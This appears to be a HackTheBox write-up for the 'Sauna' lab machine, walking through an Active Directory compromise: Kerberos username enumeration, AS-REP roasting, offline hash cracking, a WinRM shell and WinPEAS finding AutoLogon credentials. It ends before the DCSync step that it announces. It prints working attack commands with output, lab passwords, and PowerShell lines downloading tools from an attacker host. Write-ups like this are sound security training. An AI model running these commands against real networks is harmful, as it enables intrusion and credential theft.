<div align="center">



</div>

## 📌 Overview

Sauna is a medium-rated Windows Active Directory machine on HackTheBox. The name fits the environment — a domain called EGOTISTICAL-BANK.LOCAL running on a Windows Server 2019 Domain Controller, with a corporate banking website sitting on port 80 and every classic AD service exposed on the network.

This box teaches a clean, realistic Active Directory attack chain that mirrors what real penetration testers encounter in corporate environments. A public-facing website leaks employee names. Username enumeration against Kerberos confirms valid accounts. AS-REP Roasting extracts a crackable hash for an account with pre-authentication disabled. WinRM provides an initial shell. WinPEAS finds AutoLogon credentials stored in the registry. Those credentials belong to a service account with DCSync rights — granting the ability to dump every password hash in the domain. Pass-the-Hash with the Administrator NTLM hash completes the compromise.

The most important lesson from this machine is understanding how AD privilege paths work. The initial foothold user had nothing interesting. Enumerating all domain users led to a service account. That service account had a single dangerous privilege — DS-Replication-Get-Changes-All — which made the entire domain fall. Knowing what to look for in BloodHound and WinPEAS output is what separates methodical attackers from people who get stuck.

---

## 🛠 Tools Used

```
nmap                    → port and service discovery
kerbrute                → Kerberos username enumeration
impacket-GetNPUsers     → AS-REP Roasting
hashcat                 → offline hash cracking (rockyou.txt)
netexec (nxc)           → SMB/WinRM access testing, RID brute-force
evil-winrm              → WinRM shell
bloodhound-python       → Active Directory enumeration and graph collection
WinPEAS                 → Windows privilege escalation enumeration
impacket-secretsdump    → DCSync attack / NTDS.dit credential extraction
impacket-psexec         → Pass-the-Hash shell as SYSTEM
```

---

## 🧭 Walkthrough

### Step 1 — Service Discovery (Nmap)

**Goal:** Identify all open ports and understand what attack surface exists before touching anything.

```bash
nmap -T4 -sV -A -Pn 10.129.95.180
```

`-T4` sets aggressive timing. `-sV` probes services for version information. `-A` enables OS detection, script scanning, and traceroute. `-Pn` skips host discovery — Domain Controllers often block ping.

Key findings:

```
PORT      STATE SERVICE
53/tcp    open  domain       Simple DNS Plus
80/tcp    open  http         Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec Microsoft Windows Kerberos
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0

Domain: EGOTISTICAL-BANK.LOCAL
OS: Windows Server 2019 / Windows 10 (97%)
```



Port 88 (Kerberos), 389/3268 (LDAP), and 5985 (WinRM) immediately identify this as a Domain Controller. Port 5985 being open is significant — WinRM allows remote PowerShell sessions. If any account with Remote Management User membership is compromised, that is the shell path. Port 80 is IIS 10.0, which is the modern version shipping with Server 2019. The `http-title` shows "Egotistical Bank :: Home" — a corporate website worth investigating for employee names.

---

### Step 2 — Web Enumeration

**Goal:** Extract any useful information from the web server, specifically employee names that could become valid usernames.

Visiting `http://10.129.95.180` shows the Egotistical Bank website — a corporate banking page built on the "Repay" template.



Run directory brute-forcing to find hidden paths:

```bash
gobuster dir -u http://10.129.95.180/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --exclude-length 162 -t 25 --timeout 500s -k
```

`--exclude-length 162` filters out 404 responses that return a consistent body size. `-k` skips SSL verification. `-t 25` runs 25 threads. `--timeout 500s` prevents early kills on slow responses.

```
images   (Status: 301)
Images   (Status: 301)
css      (Status: 301)
```



Only static asset directories — images, CSS. No login panels, no admin interfaces, no interesting paths. The web server is not the attack path. However, browsing the site manually reveals something useful: the About Us or team page lists employee names. These are the raw material for username generation.

From the website, the visible employees include names like **Fergus Smith**, **Hugo Bear**, **Steven Kerb**, **Shaun Coins**, **Bowie Taylor**, and **Sophie Driver**. These names are converted into username format candidates — common Active Directory naming conventions include `fsmith`, `FSmith`, `fergus.smith`, `f.smith`. A username wordlist is built from these and tested against Kerberos.

---

### Step 3 — Service Enumeration (RPC and SMB)

**Goal:** Attempt anonymous access to RPC and SMB before moving to more targeted techniques.

```bash
rpcclient -U "" -N 10.129.95.180
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> querydominfo
```



Every RPC query returns `NT_STATUS_ACCESS_DENIED`. Null sessions are blocked on this DC. No user or group enumeration through RPC.

```bash
smbclient -L //10.129.95.180 -N
```



Anonymous SMB login succeeds, but reconnecting for workgroup listing fails with `NT_STATUS_RESOURCE_NAME_NOT_FOUND`. No shares are enumerable without credentials. Both null session paths are dead ends. The attack shifts to Kerberos enumeration.

---

### Step 4 — Username Enumeration with Kerbrute

**Goal:** Confirm which username formats are valid in the domain without triggering account lockouts.

Kerberos username enumeration exploits a difference in error responses. When a username does not exist, the KDC returns `KDC_ERR_C_PRINCIPAL_UNKNOWN`. When a username exists but authentication fails for another reason, a different response code is returned. This distinction allows enumerating valid usernames without supplying any password — and without incrementing failed login counters, making it lockout-safe.

A username wordlist is prepared from the employee names found on the website, generating common AD naming conventions for each person.

```bash
kerbrute userenum usersmixed.txt -d EGOTISTICAL-BANK.LOCAL --dc 10.129.95.180
```

```
2026/05/27 19:55:15 > [+] VALID USERNAME: fsmith@EGOTISTICAL-BANK.LOCAL
2026/05/27 19:55:20 > [+] VALID USERNAME: FSmith@EGOTISTICAL-BANK.LOCAL
Done! Tested 312 usernames (2 valid) in 57.594 seconds
```



`fsmith` is confirmed valid. Both results are the same account — Kerberos is case-insensitive. This is the username to target.

---

### Step 5 — AS-REP Roasting

**Goal:** Check whether fsmith has Kerberos pre-authentication disabled, and extract a crackable hash if so.

AS-REP Roasting targets accounts with the `DONT_REQUIRE_PREAUTH` flag set in Active Directory. Normally, a user must prove knowledge of their password before the KDC issues a Ticket Granting Ticket — this is pre-authentication. When that flag is disabled, anyone can request an AS-REP for that account without proving anything. The KDC responds with a blob encrypted using the account's password hash. That blob can be taken offline and cracked.

```bash
impacket-GetNPUsers -dc-ip 10.129.95.180 EGOTISTICAL-BANK.LOCAL/fsmith -no-pass
```

`-no-pass` tells GetNPUsers to request the AS-REP without supplying a password — this works only if pre-auth is disabled.

```
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:50e634422a0c178d16807fe261024003$676a7052b6db7a9abe6b6618e1188fec5d66c4b5fd732132ef16b573df032d66ddf29818e37d3a710229835914e49bfaed7bc67ff1555d0270127e2ecc7bdaa394b3b061deab72140a28adad014abc3bc13784ff09c6a86fd45336525bee229b355bd5c3a300008004dbd59194a232515519935e80d4d73b5856e5f1ae47b309b6bbf1b11a5f89041fd8ab3f60a9a78c6a0f4dd2ce9446b5527a14eb5927f275ca7399b29ce6615d7958121c9597e46be382a683c75164de3d121f5950ca967dc3c8f6bb1c3f74d6f98fe5bf90c587910f96d8ba3edf0eb989775f39d0bf7cc1f2af216798a8cfad75bd85c5bd1b0d6b05b369e75c0afc4b7d178b876b4525a5
```



The hash type is `$krb5asrep$23$` — Kerberos 5 AS-REP, etype 23 (RC4-HMAC). This is hashcat mode 18200.

---

### Step 6 — Hash Cracking with Hashcat

**Goal:** Crack the AS-REP hash offline to recover fsmith's plaintext password.

```bash
hashcat -m 18200 fsmith.hash /usr/share/wordlists/rockyou.txt
```

`-m 18200` is the mode for Kerberos 5 AS-REP etype 23.

```
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:...:Thestrokes23

Status.........: Cracked
Hash.Mode......: 18200 (Kerberos 5, etype 23, AS-REP)
Speed.#01......: 800.3 kH/s (1.96ms)
Recovered......: 1/1 (100.00%) Digests
```



Password recovered: **`Thestrokes23`**

Credentials: `fsmith` : `Thestrokes23`

---

### Step 7 — WinRM Access and Initial Shell

**Goal:** Confirm fsmith can authenticate over WinRM and obtain an interactive shell.

```bash
nxc winrm 10.129.95.180 -u 'fsmith' -p 'Thestrokes23'
```

```
WINRM  10.129.95.180  5985  SAUNA  [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwnd!)
```



`(Pwnd!)` confirms fsmith is a member of the Remote Management Users group and can authenticate over WinRM. Connect with Evil-WinRM:

```bash
evil-winrm -i 10.129.95.180 -u 'fsmith' -p 'Thestrokes23'
```

```
Evil-WinRM shell v3.7
*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith
```


Shell obtained as `egotisticalbank\fsmith`.

```powershell
cd C:\Users\FSmith\Desktop
type user.txt
```



**User flag captured.**

---

### Step 8 — Domain User Enumeration

**Goal:** Enumerate all domain users to identify additional accounts worth targeting for privilege escalation.

With valid credentials, use netexec RID brute-force to enumerate all domain principals by cycling through Security Identifier RIDs:

```bash
nxc smb 10.129.95.180 -u 'fsmith' -p 'Thestrokes23' --rid-brute
```

RID brute-forcing queries the LSA over SMB to resolve SIDs. Every domain object — users, groups, computers — has a unique RID. Iterating through them enumerates every account regardless of whether anonymous access is available.

```
498:  EGOTISTICALBANK\Enterprise Read-only Domain Controllers
500:  EGOTISTICALBANK\Administrator
501:  EGOTISTICALBANK\Guest
502:  EGOTISTICALBANK\krbtgt
512:  EGOTISTICALBANK\Domain Admins
...
1105: EGOTISTICALBANK\FSmith
1107: EGOTISTICALBANK\HSmith
1108: EGOTISTICALBANK\svc_loanmgr
```



Three non-default user accounts: `FSmith`, `HSmith`, and `svc_loanmgr`. Service accounts are always high-value targets — they frequently have elevated privileges configured for application integration, and their passwords are often set once and never rotated.

Verify from the shell:

```powershell
net user /domain
```



Check HSmith:

```powershell
net user /domain HSmith
```

```
User name       HSmith
Full Name       Hugo Smith
Local Group Memberships
Global Group memberships  *Domain Users
```



HSmith is only a Domain User. Nothing exploitable. Check svc_loanmgr:

```powershell
net user /domain svc_loanmgr
```

```
User name       svc_loanmgr
Full Name       L Manager
Local Group Memberships   *Remote Management Use
Global Group memberships  *Domain Users
```



`svc_loanmgr` is in **Remote Management Users** — meaning this account can open WinRM sessions. If its password can be found, it is immediately usable for a shell. The next step is to find that password.

---

### Step 9 — BloodHound Collection

**Goal:** Collect Active Directory data for BloodHound graph analysis to understand privilege relationships.

BloodHound maps Active Directory relationships as a graph, allowing attackers to identify non-obvious privilege escalation paths — particularly delegations, group memberships, and ACL-based rights that `net user` output does not surface.

Download SharpHound (the C# collector) to the target:

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.16.65/SharpHound.exe', 'C:\Users\FSmith\sh.exe')
```


Run collection from the attacker machine instead using bloodhound-python — avoids the AV detection risk of running a binary on the target:

```bash
bloodhound-python -u 'fsmith' -p 'Thestrokes23' -d 'EGOTISTICAL-BANK.LOCAL' -ns 10.129.95.180 -c All
```

`-c All` collects all data types: users, groups, computers, sessions, ACLs, GPOs, containers, trusts, and object properties. `-ns` specifies the nameserver — required because the attacker machine does not have EGOTISTICAL-BANK.LOCAL in its DNS resolver.

```
INFO: Found AD domain: egotistical-bank.local
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Done in 05M 17S
```



Six JSON files produced covering all AD objects. Upload these to BloodHound CE for graph analysis. The critical finding from BloodHound: `svc_loanmgr` has **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-All** rights on the domain object. These are the exact rights needed to perform a DCSync attack — impersonating a Domain Controller and pulling every password hash from the domain.

---

### Step 10 — Privilege Escalation via WinPEAS

**Goal:** Enumerate the target system for privilege escalation vectors from the fsmith session.

Download WinPEAS to the target:

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.16.65/winPEASx64.exe', 'C:\Users\FSmith\wp.exe')
```



```powershell
ls
```



```powershell
./wp.exe
```



WinPEAS runs its full enumeration suite across system info, users, network, services, registry, scheduled tasks, and file permissions. Among all its output, one section stands out immediately:

```
Looking for AutoLogon credentials
  Some AutoLogon credentials were found
  DefaultDomainName     : EGOTISTICALBANK
  DefaultUserName       : EGOTISTICALBANK\svc_loanmanager
  DefaultPassword       : Moneymakestheworldgoround!
```

